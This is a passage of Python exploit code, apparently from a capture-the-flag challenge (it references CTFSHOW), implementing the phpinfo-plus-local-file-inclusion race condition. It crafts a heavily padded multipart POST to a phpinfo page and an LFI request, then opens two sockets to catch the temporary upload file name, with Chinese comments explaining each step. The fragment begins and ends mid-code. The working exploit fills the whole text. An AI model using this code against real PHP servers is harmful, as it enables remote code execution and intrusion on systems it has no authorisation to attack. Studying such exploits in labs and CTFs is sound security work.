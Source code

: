 ```python
'''POST {phpinfo_path}?%5f%5fCTFSHOW%5f%5f=phpinfo&a={padding} HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie={padding}\r
HTTP_ACCEPT: {padding}\r
HTTP_USER_AGENT: {padding}\r
HTTP_ACCEPT_LANGUAGE: {padding}\r
HTTP_PRAGMA: {padding}\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: {request_data_length}\r
Host: {host}:{port}\r
\r
{request_data}
'''.format(
    padding='A' * 4000,
    phpinfo_path=phpinfo_path,
    request_data_length=len(request_data),
    host=host,
    port=port,
    request_data=request_data
    )

    lfi_request = \
'''POST {lfi_path}?{lfi_param} HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: {host}\r
Content-Type: application/x-www-form-urlencoded\r
\r
ctf={{}}\r
'''.format(
    lfi_path=lfi_path,
    lfi_param=lfi_param,
    host=host
    )
    return phpinfo_request, tag, lfi_request


def phpinfo_lfi(host, port, phpinfo_request, offset, lfi_request, tag):
    """
    通过向phpinfo发送大数据包延缓时间, 然后利用lfi执行
    :param host:HOST
    :param port:端口
    :param phpinfo_request: phpinfo页面请求内容
    :param offset: tmp_name在phpinfo中的偏移位
    :param lfi_request: lfi页面请求内容
    :param tag: 标识内容
    :return:
        tmp_file_name: 临时文件名
    """
    phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    lfi_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    phpinfo_socket.connect((host, port))
    lfi_socket.connect((host, port))

    # 1. 先向phpinfo发送大数据包, 且其中包含php会将payload放入临时文件中
    # print(phpinfo_request)
    # print(lfi_request)
    phpinfo_socket.send(phpinfo_request.encode())

    phpinfo_response_data = ''
    while len(phpinfo_response_data) < offset:
        # 取不到数据则反复执行
        phpinfo_response_data += phpinfo_socket.recv(offset).decode()
```